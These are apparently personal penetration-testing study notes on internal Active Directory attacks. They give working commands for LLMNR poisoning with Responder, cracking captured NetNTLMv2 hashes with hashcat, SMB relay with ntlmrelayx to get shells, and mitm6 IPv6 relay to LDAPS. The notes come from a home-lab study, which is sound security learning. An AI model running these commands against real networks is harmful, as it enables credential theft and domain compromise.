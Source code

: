 
 **1 Netbios && LLMNR Name poisoning**\
 **2 Relay attacks**\
 **3 mitm6**\
 **4 MS17-010**\
 **5 kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**
       - needs traffic - ideal before nmap/nessus scans
       - responder: 'python /usr/share/responder/Responder.py -L eth0 -rdwv'
   a) try to access attacker IP address. see ![llmnr_poison](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\admin_malz_llmnr_poison.png)
       -  'hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt'  # --m 5600 module for NetNTLMv2

---

**2. SMB Relay attacks:**
       - Requirements:: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
       - setup ntlmrelay see ![ntlmrelay.py](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\ntlmrelay_py.png) 
   a) Find machines w/ smb enabled:
        'nessus or nmap:: 'nmap --script=smb2-security-mode.nse -p445 192.168.86.0/24'
            Nmap scan report for oxytocin-dc.lan (192.168.86.205)  (DC)
            PORT    STATE SERVICE
            445/tcp open  microsoft-ds
            Host script results:
            | smb2-security-mode:
            |   2.02:
            |_    Message signing enabled and required'
   'python3 ntlmrelayx.py -tf targets.txt -smb2support (-i)'  'python3 -m pip install .' for install && -i interactive shell"
       - Working but keeps failing:: see ![revmalz](Screenshots/revshell_smb_malz.png) && ![break](Screenshots/malz_smb_breaking.png)
       - For shells W/ creds: ![shells](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\meterpreter_psexec_shells.png)
               #wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy##

---

**3. Pv6 Attacks: DNS relay**
    # requirements, must have certificate in DC
       #manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs
       -'sudo python3 mitm6.py -d carbon.local'
       -'sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme'
       - see ![IPv6_relay](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\relay_ipv6.png)

---

4. MS17-010

---

5. 
 
[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords)
[impacket] (https://github.com/SecureAuthCorp/impacket)
[mitm6] (https://github.com/dirkjanm/mitm6)
